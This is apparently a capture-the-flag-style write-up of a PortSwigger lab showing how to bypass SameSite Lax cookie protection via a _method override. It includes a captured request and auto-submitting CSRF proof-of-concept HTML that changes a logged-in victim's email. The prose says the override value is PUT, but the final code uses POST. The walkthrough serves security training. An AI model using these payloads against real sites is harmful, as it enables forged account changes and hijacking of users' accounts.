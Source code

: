 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1a9a6cf7-580e-41d3-95d4-91589742bcfc)


## Overview :

#### Bypassing SameSite Lax restrictions using GET requests

In practice, servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission. If they also use Lax restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a GET request from the victim's browser.

As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. The following is one of the simplest approaches to launching such an attack:

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary GET request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the _method parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Other frameworks support a variety of similar parameters. 

## Solution :

> This lab's website doesn't enforce samesite cookie mechanism, the samesite mechanism is provided by the browser. We need to bypass it.
> So use **chrome** as it has SAMESITE=Lax by default.


When we login as wiener a _POST_ request is sent to  _/login_ endpoint.

Its resposne doesn't contain any Samesite restrictions when setting cookies,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/03349859-5591-40d1-a570-88b216d97392)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cfcde74e-5234-472b-bd93-d55170d21804)

As a result, the browser will use the default Lax restriction level.

Recognize that **this means the session cookie will be sent in cross-site GET requests, as long as they involve a top-level navigation**.

In the email change functionality, update the email of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8613f91f-8202-4332-8095-48d4803218e7)


Our browser sends the following POST request to _/change-email_ endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a83000703a7443b832173c900ec0075.web-security-academy.net
Cookie: session=AByBtr98xDwtwaclCZ3UjOa6ceJRYwzI
Content-Length: 21
Cache-Control: max-age=0
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a83000703a7443b832173c900ec0075.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

email=test%40test.com
```
We can see that there is no unpredictable request parameters so if we can bypass the  _Lax_ restrictions then we may be able to perform a CSRF attack.



Generating POC -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a83000703a7443b832173c900ec0075.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Here we change the  request method from _POST_ -> _GET_  (ie) - `method=GET`. But it won't work.

We can't just change the request method & genreate POC since in the response of GET message we get a error -`Method Not Allowed`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d5eb409b-2687-4501-9c43-e3069ff3b904)

From this we can understand that the endpoint _/change-email_ accepts only POST requests.

**So we need to Override the request method instead of changing the request method in the POC .**

#### Overriding the request method - 

> References
>  - https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
>  - https://laravel.com/docs/5.0/routing#method-spoofing

The above reference tells us how we can overrride a HTTP request.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0f733de1-5c06-466c-835c-aad942684114)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e4a70c67-5c03-4fe8-b799-19f9204e5f95)

So in our final payload, we change the request method - `method="GET"` & then we include a hidden input form (ie.) - `<input type="hidden" name="_method" value="PUT">` inside the form to override the request method.


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a69000c034b620380c93fc10079009e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And thus we have solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/45656199-6217-4ec0-ab0d-c74678556fad)

